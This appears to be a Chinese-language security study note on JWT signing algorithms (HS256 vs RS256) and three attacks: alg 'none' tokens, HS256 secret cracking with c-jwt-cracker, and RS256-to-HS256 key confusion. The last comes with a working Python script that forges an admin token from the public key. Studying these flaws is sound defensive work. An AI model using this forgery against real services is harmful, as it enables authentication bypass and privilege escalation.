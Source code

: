 # jwt的签名算法

JWT签名算法中，一般有两个选择，一个采用HS256,另外一个就是采用RS256。
签名实际上是一个加密的过程，生成一段标识（也是JWT的一部分）作为接收方验证信息是否被篡改的依据。

RS256 (采用SHA-256 的 RSA 签名) 是一种非对称算法, 它使用公共/私钥对: 标识提供方采用私钥生成签名, JWT 的使用方获取公钥以验证签名。由于公钥 (与私钥相比) 不需要保护, 因此大多数标识提供方使其易于使用方获取和使用 (通常通过一个元数据URL)。
另一方面, HS256 (带有 SHA-256 的 HMAC 是一种对称算法, 双方之间仅共享一个 密钥。由于使用相同的密钥生成签名和验证签名, 因此必须注意确保密钥不被泄密。

在开发应用的时候启用JWT，使用RS256更加安全，你可以控制谁能使用什么类型的密钥。另外，如果你无法控制客户端，无法做到密钥的完全保密，RS256会是个更佳的选择，JWT的使用方只需要知道公钥。

由于公钥通常可以从元数据URL节点获得，因此可以对客户端进行进行编程以自动检索公钥。如果采用这种方式，从服务器上直接下载公钥信息，可以有效的减少配置信息。

# 直接修改签名算法为none

![image](images/D9A5DFDBD9664F818155DAA3F52AD166clipboard.png)

然后分别base64下header与payload，构造为

```
base64_header.base64_payload.  （注意最后有个点）
```

格式的字符串发送给服务器

# 对于对称加密的jwt 可以使用工具进行破解

工具:c-jwt-cracker

下载地址：https://github.com/brendan-rius/c-jwt-cracker

# 修改签名算法

有些JWT库支持多种密码算法进行签名、验签。若目标使用非对称密码算法时，有时攻击者可以获取到公钥，此时可通过修改JWT头部的签名算法，将非对称密码算法改为对称密码算法，从而达到攻击者目的。


jwt生成代码

```python
# coding=GBK
import hmac
import hashlib
import base64

file = open('publickey.pem')    #需要将文中的publickey下载	与脚本同目录
key = file.read()

# Paste your header and payload here
header = '{"typ": "JWT", "alg": "HS256"}'
payload = '{"username": "admin", "role": "admin"}'

# Creating encoded header
encodeHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodeHeader = str(encodeHBytes, "utf-8").rstrip("=")

# Creating encoded payload
encodePBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodePayload = str(encodePBytes, "utf-8").rstrip("=")

# Concatenating header and payload
token = (encodeHeader + "." + encodePayload)

# Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"), token.encode("utf-8"), hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

print(token + "." + sig)
```

# 资料

JWT详解

https://baobao555.tech/archives/40

想全面理解JWT？一文足矣！

https://zhuanlan.zhihu.com/p/70275218

JSON Web Token 入门教程

https://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html